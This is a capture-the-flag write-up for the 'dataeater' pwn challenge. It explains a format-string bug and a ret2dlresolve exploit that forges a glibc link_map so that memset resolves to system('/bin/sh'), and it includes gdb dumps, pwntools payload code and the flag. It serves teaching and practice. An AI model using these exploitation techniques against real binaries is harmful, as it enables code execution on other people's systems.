


# ctf.dicega.ng - dataeater

### Reference Source: 

https://gist.github.com/ReDucTor/0814d5e5d0508eec49316b1ce1bc9171

https://hackmd.io/fmdfFQ2iS6yoVpbR3KCiqQ#pwndata-eater

---

Challenge link: https://ctf.dicega.ng/challs

You can also download challenge file from my repo: [dataeater.zip](dataeater.zip)

There will be 1 file in zip:

- dataeater

Now, let's start!

# 1. Find bug

First, we will use `file` to check information:

```
dataeater: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a3e6d6f42869e6785a5d3815426a76137ac581e1, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check security of file:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We can see that canary is found and NX is enabled. Finally, let's fire up ghidra and decompile our file. There is just main() and nothing else:



We know that it clear out all arguments and environment variable first, then it will fget to format_string (I renamed it) and scanf with format_string which we have just input --> **Format string**. 

After that it execute a null pointer, which will cause segfault. That's all bug we can find. Let's go to next part: Brainstorming!

# 2. Brainstorming

If you don't know about ret2dlresolve, you can read [here](https://github.com/nhtri2003gmail/ret2dlresolve-64bit).

- Knowledge: 

This technique requires us to view source code a lot. For this challenge, we will mainly focus on structure of linkmap and function `_dl_fixup`, and we just get to know variable, not the flow.

[linkmap](https://code.woboq.org/userspace/glibc/include/link.h.html#92):

```
struct link_map
{
    Elf64_Addr l_addr;
    char *l_name;
    Elf64_Dyn *l_ld;
    struct link_map *l_next, *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    Elf64_Dyn l_info[77]
    ...
}
```

[dl_fixup](https://code.woboq.org/userspace/glibc/elf/dl-runtime.c.html#59):

```
1  |_dl_fixup (
2  |# ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
3  |            ELF_MACHINE_RUNTIME_FIXUP_ARGS,
4  |# endif
5  |            struct link_map *l, ElfW(Word) reloc_arg)
6  |{
7  |    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
8  |    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
9  |    
10 |    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
11 |    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
12 |    const ElfW(Sym) *refsym = sym;
13 |    void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
14 |    lookup_t result;
15 |    DL_FIXUP_VALUE_TYPE value;
16 |    
17 |    /* Sanity check that we're really looking at a PLT relocation.  */
18 |       assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
19 |    
20 |    /* Look up the target symbol.  If the normal lookup rules are not
21 |       used don't look in the global scope.  */
.. |    ...
89 |}
```

We can see all const in `_dl_fixup` are `DT_STRTAB`, `DT_SYMTAB`, `DT_JMPREL` and `DT_VERSYM` but we will just focus on some of them which is defined in [source](https://code.woboq.org/userspace/glibc/elf/elf.h.html#853) as follows:

```
# define DT_STRTAB        5 
# define DT_SYMTAB        6
# define DT_JMPREL        23 
```

And we can also notice that in `_dl_fixup`, it just require upto l_info in linkmap, not more. So we just simply overwrite l_info to change `l_info[DT_STRTAB]` (DT_STRTAB = 5) and it's done.

- Idea 1:

This is a program which just take input, not output. So that we can use a technique called `ret2dlresolve`. 

With this technique, we just want to overwrite or change data in `l_info[DT_STRTAB]` because we know with various `%s%<number>$s`, we can overwrite linkmap, as a result, overwrite l_info. Moreover, there is no buffer overflow so we cannot fake reloc_arg. 

Therefore, we will fake linkmap and changing `l_info[DT_STRTAB]` is enough for us.

- Summary:

  1. Get linkmap format string offset
  2. Create fake linkmap

# 3. Exploit

- Stage 1: Get linkmap format string offset

First, we know that there is a pointer to linkmap. So with a `%<number>$s` large enough, we can overwrite linkmap structure. Let's fire up GDB to get linkmap pointer then linkmap structure by examining any @plt. We will take fgets@plt as example:

```
gef➤  # 0x400540 <fgets@plt>
gef➤  x/3i 0x400540
   0x400540 <fgets@plt>:    jmp    QWORD PTR [rip+0x200ae2]        # 0x601028 <fgets@got.plt>
   0x400546 <fgets@plt+6>:  push   0x2                             # (reloc_arg)
   0x40054b <fgets@plt+11>: jmp    0x400510                        # (dl_resolver)

gef➤  # x/2i (dl_resolver)
gef➤  x/2i 0x400510
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008 (linkmap pointer)
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010 (dl_runtime_resolve)

gef➤  # x/xg (linkmap pointer)
gef➤  x/xg 0x601008
0x601008:    0x00007ffff7ffe180           # (linkmap structure)

gef➤  # x/12xg (linkmap structure)
gef➤  x/12xg 0x00007ffff7ffe180
0x7ffff7ffe180: 0x0000000000000000  0x00007ffff7ffe720    <-- l_addr & l_name
0x7ffff7ffe190: 0x0000000000600e20  0x00007ffff7ffe730    <-- l_ld & l_next
0x7ffff7ffe1a0: 0x0000000000000000  0x00007ffff7ffe180    <-- l_prev & l_real
0x7ffff7ffe1b0: 0x0000000000000000  0x00007ffff7ffe708    <-- l_ns & l_libname
0x7ffff7ffe1c0: 0x0000000000000000  0x0000000000600e20    <-- l_info[0] & l_info[1]
0x7ffff7ffe1d0: 0x0000000000600f00  0x0000000000600ef0    <-- l_info[2] & l_info[3]
```

So we know that linkmap pointer is `0x601008` which contain dynamic linkmap structure address. If we write successfully into linkmap structure, we can see our value when examine linkmap structure. We will use pwntool to automate via core file (attach GDB is much more slower):

```
linkmap_pointer = 0x601008
for x in range(1,99):
    print('--------------------------------------------')
    p = process('./dataeater')
    p.sendline(f"%s%{x}$s".encode())
    p.sendline(b'A'*8 + b' ' + b'B'*8 + b' ' + b'C')         # Input 'C' to end scanf
    
    # Wait until it crash. Core file will be made after crash.
    # If it doesn't crash, check manually to make sure it crash
    p.wait()

    core = Coredump('./core')

    # Read 8 bytes from address of linkmap_pointer
    linkmap_addr = u64(core.read(linkmap_pointer, 8))

    # Read all bytes at linkmap_addr and stop at null byte 
    if b'BBBBBBBB' in core.string(linkmap_addr):             
        print(x, hex(linkmap_addr))
        print(core.string(linkmap_addr))
        input()
    p.close()
```

Run it and we stop at x=32:

```
[+] Starting local process './dataeater': pid 5173
[*] Process './dataeater' stopped with exit code -11 (SIGSEGV) (pid 5173)
[+] Parsing corefile...: Done
[!] Error parsing corefile stack: Found bad environment at 0x7fffe24acfda
[*] './core'
    Arch:      amd64-64-little
    RIP:       0x7f79e36ba669
    RSP:       0x7fffe24ab6e0
    Exe:       './dataeater' (0x400000)
32 0x7f79e36d7180
b'BBBBBBBB'

```

That's good! Now let's begin to write fake linkmap!

- Stage 2: Create fake linkmap

First, we know that `_dl_fixup` just use l_info of linkmap. So that we will just need to build up l_info for linkmap.

Struct of linkmap:

```
struct link_map
{
    Elf64_Addr l_addr;                      # 64 bit
    char *l_name;                           # 64 bit
    Elf64_Dyn *l_ld;                        # 64 bit
    struct link_map *l_next, *l_prev;       # 64 bit
    struct link_map *l_real;                # 64 bit
    Lmid_t l_ns;                            # 64 bit
    struct libname_list *l_libname;         # 64 bit
    Elf64_Dyn l_info[77]                    # 64 bit
    ...
}
```

`_dl_fixup` just use l_info so any other variable in linkmap struct will be null.

```
linkmap_struct = p64(0)         # l_addr
linkmap_struct += p64(0)        # l_name
linkmap_struct += p64(0)        # l_ld
linkmap_struct += p64(0)        # l_next
linkmap_struct += p64(0)        # l_prev
linkmap_struct += p64(0)        # l_real
linkmap_struct += p64(0)        # l_ns
linkmap_struct += p64(0)        # l_libname
```

Also we just need to focus on `DT_STRTAB (5)`, `DT_SYMTAB (6)`, `DT_JMPREL (23)` because `_dl_fixup` has them. So other l_info can be null too.
```
linkmap_struct += p64(0)        # l_info[0]
linkmap_struct += p64(0)        # l_info[1]
linkmap_struct += p64(0)        # l_info[2]
linkmap_struct += p64(0)        # l_info[3]
linkmap_struct += p64(0)        # l_info[4]
```

With l_info[5] will equal to l_info[DT_STRTAB] which we want to change. So we pause here and switch to build DT_STRTAB using buf variable. As we know the buf is global so that we can get its address. We will abuse the memset@plt after scanf@plt to do a ret2solve. 

Luckily, first argument for memset is buf and memset after overwrite linkmap will turn to system --> spawn shell. So our buf need string "/bin/sh" at first:

```
buf_addr = 0x601080
buf_data = b'/bin/sh\x00'    # len(buf_data) = 8
```

Next, we need to build fake DT_STRTAB structure. Look at GDB, we can see that structure of l_info[DT_STRTAB] will be like this:

```
gef➤  # x/50xg linkmap
gef➤  x/50xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info at 0x7ffff7ffe1c0
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[5] = 0x0000000000600ea0
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30
0x7ffff7ffe200:    0x0000000000600f40    0x0000000000600f50

gef➤  # x/2xg l_info[DT_STRTAB] = l_info[5]
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:    0x0000000000000005    0x0000000000400380        <-- STRTAB
```

So we will imitate it as following:

```
# Fake DT_STRTAB
buf_data += p64(5)
buf_data += p64(buf_addr)    # Fake STRTAB address, which then add with sym->st_name
assert(len(buf_data), 0x18)
```

Next, we will need to know sym->st_name:

```
gef➤  # x/3xg (SYMTAB) + (r_info >> 32 ) * 24               # (r_info >> 32 ) = symbol_number
gef➤  x/3xg 0x4002c0 + (0x000200000007 >> 32 ) * 24
0x4002f0:    0x0000001200000037    0x0000000000000000
0x400300:    0x0000000000000000
```

So we know that sym->st_name = 0x37 = 55 and our buf length now is just 24 (0x18), very well! So we can put string "system" at buf_data+55 and we've done:

```
buf_data = buf_data.ljust(55, b'\x00')
buf_data += b'system\x00'
```

And now turn back to create fake linkmap. At l_info[5], we will write fake DT_STRTAB and at l_info[6], we will write again the DT_SYMTAB (which is static inside and outside GDB) because scanf need to have whitespace to end, which will overwrite to l_info[6] and cause error:

```
linkmap_struct += p64(buf_addr + 8)        # l_info[5] = Fake DT_STRTAB
linkmap_struct += p64(0x600eb0)            # l_info[6] = Real DT_SYMTAB
```

Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `dice{1nfin1t3_f1v3_lin3_ch4lls_f46297a09e671c6a}`

